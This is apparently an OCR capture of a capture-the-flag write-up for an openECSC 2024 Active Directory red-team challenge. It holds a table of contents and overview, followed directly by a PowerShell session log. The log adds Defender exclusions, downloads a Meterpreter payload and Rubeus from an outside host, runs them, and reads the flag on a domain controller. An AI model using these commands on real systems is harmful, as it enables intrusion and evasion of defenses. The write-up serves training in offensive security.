 # openECSC 2024 - Round 3

## [misc] Mamma Mia (2 solves)

Calling all operatives! The clock is ticking on our Red Team Operation. Your expertise is needed immediately. Respond urgently!

Refer to the `README.md` file in the attachments for detailed instructions.

Author: Oliver Lyak <@ly4k>

## Table of contents

- [Overview](#overview)
- [Recommended Reading](#recommended-reading)
- [Details](#details)
  - [Participant instructions](#participant-instructions)
    - [Mission Brief](#mission-brief)
      - [Background](#background)
      - [Artifacts](#artifacts)
      - [Network](#network)
  - [Access](#access)
- [Exploitation](#exploitation)
  - [Artifacts](#artifacts-1)
    - [GPOs](#gpos)
    - [Registry Dump](#registry-dump)
  - [Foothold](#foothold)
    - [Failed NTLM Authentication](#failed-ntlm-authentication)
    - [Silver Ticket Attack](#silver-ticket-attack)
    - [WinRM with Kerberos Authentication](#winrm-with-kerberos-authentication)
      - [Evil-WinRM](#evil-winrm)
      - [Linux + PowerShell](#linux--powershell)
      - [Windows + PowerShell](#windows--powershell)
      - [pywinrm](#pywinrm)
  - [Post-exploitation](#post-exploitation)
    - [Enumeration](#enumeration)
    - [Attack Path](#attack-path)
  - [Bypassing Remote Credential Guard](#bypassing-remote-credential-guard)
  - [Partial Golden Tickets](#partial-golden-tickets)
  - [Constrained Delegation Attack](#constrained-delegation-attack)
  - [Domain Takeover](#domain-takeover)
  - [Forest Takeover](#forest-takeover)
- [Conclusion](#conclusion)

## Overview

This challenge was a Red Team Operation scenario designed for participants to exploit an Active Directory environment. The setup included 4 servers, 3 networks, and 2 domains (forest), hardened with various security mechanisms and best practices like disabling NTLM, enabling LDAP signing/channel binding, and using Remote Credential Guard.


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      
